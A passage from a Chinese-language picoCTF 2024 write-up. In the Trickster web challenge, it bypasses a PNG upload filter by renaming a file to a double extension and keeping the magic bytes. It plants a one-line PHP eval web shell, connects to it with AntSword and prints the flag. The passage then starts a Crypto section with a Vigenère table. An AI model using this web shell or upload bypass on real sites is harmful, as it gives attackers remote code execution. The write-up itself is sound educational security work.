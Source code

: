 所以我們知道後端驗證檔案是否為 png 的方法有二，其一為檢查文件後綴名是否為`.png`；其二為驗證文件的 magic bytes，看文件在十六進制中的前幾個位元組是否為`50 4E 47`。

知道了這些信息後，我們先隨便找一張 png 圖片上傳看看吧！（我這邊直接隨便截圖，並命名為`hack.png`）。並且在 upload 的過程中用 Burp suite 去攔截封包，並修改其中的檔案名稱及檔案內容。這邊把檔案名稱改為`hack.png.php`，並在檔案內容的 PNG 以下添加這個[php 一句話木馬](https://xz.aliyun.com/t/6957?time__1311=n4%2BxnD0DRDyD9iDuDRhxBqOoQRQ40xAK5q5vKx&alichlgref=https%3A%2F%2Fwww.google.com%2F)

```php=
<?php @eval($_POST['shell']);?>
```

整個修改完後如下（點開來看可能會比較清楚）:

![一句話木馬](https://hackmd.io/_uploads/Sy7rFrYU0.png)

上傳完成後，現在這個 shell 就會位於`https://my_instance_url/uploads/hack.png.php`這個位置上啦。

接下來再用[中國蟻劍](https://github.com/AntSwordProject/antSword)這款工具去連接那個 web shell 就可以啦，連接過程如下:

![輸入連接資訊](https://hackmd.io/_uploads/HJo4cSF8A.png)

連接完成後，就可以直接看一下網站的文件，看到以下這個`.txt`應該就是 flag 了。

![貌似是flag的文件](https://hackmd.io/_uploads/SyahqSYLR.png)

![flag出來了](https://hackmd.io/_uploads/HJW1sBtI0.png)

於是我們就成功找到了 flag 啦！如下:

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}
```

這邊補充一個知識點，來講一下`<?php @eval($_POST['shell']);?>`到底是在做啥。但因為我也不是很熟 php，所以我們來看看 ChatGPT 大神是怎麼回答的吧！

> 當然，這段 PHP 代碼的原理是允許遠程執行伺服器上的 PHP 代碼。這是如何工作的：
>
> 1.  `<?php` 是 PHP 代碼的開始標記。
> 2.  `@eval($_POST['shell']);` 中的 `eval()` 函數執行傳遞給它的字符串作為 PHP 代碼。這裡的代碼來自於 HTTP POST 請求中名為 `shell` 的變量。
> 3.  `@` 符號用來抑制任何錯誤信息，這樣用戶不會看到執行過程中產生的任何錯誤。
> 4.  由於這段代碼執行任意 PHP 代碼，它使得伺服器容易受到攻擊，因此屬於一種非常危險的做法。
>
> 簡言之，任何通過 `shell` 變量傳送的代碼都將被伺服器執行，這可以用於各種目的，包括但不限於數據讀取、文件操作等。

然後我後來找到了另一篇 writeup，它的 payload 比較酷，是一個即時執行的 input 框，有興趣可以去看一下[這篇](https://medium.com/@niceselol/picoctf-2024-trickster-af90f7476e18)。

# Crypto

> [My scripts & note on Github](https://github.com/CX330Blake/Crypto_Notebook)

## Easy1

```
    A B C D E F G H I J K L M N O P Q R S T U V W X Y Z
   +----------------------------------------------------
A | A B C D E F G H I J K L M N O P Q R S T U V W X Y Z
B | B C D E F G H I J K L M N O P Q R S T U V W X Y Z A
C | C D E F G H I J K L M N O P Q R S T U V W X Y Z A B
D | D E F G H I J K L M N O P Q R S T U V W X Y Z A B C
E | E F G H I J K L M N O P Q R S T U V W X Y Z A B C D
F | F G H I J K L M N O P Q R S T U V W X Y Z A B C D E
G | G H I J K L M N O P Q R S T U V W X Y Z A B C D E F
H | H I J K L M N O P Q R S T U V W X Y Z A B C D E F G
I | I J K L M N O P Q R S T U V W X Y Z A B C D E F G H
J | J K L M N O P Q R S T U V W X Y Z A B C D E F G H I
K | K L M N O P Q R S T U V W X Y Z A B C D E F G H I J
L | L M N O P Q R S T U V W X Y Z A B C D E F G H I J K
```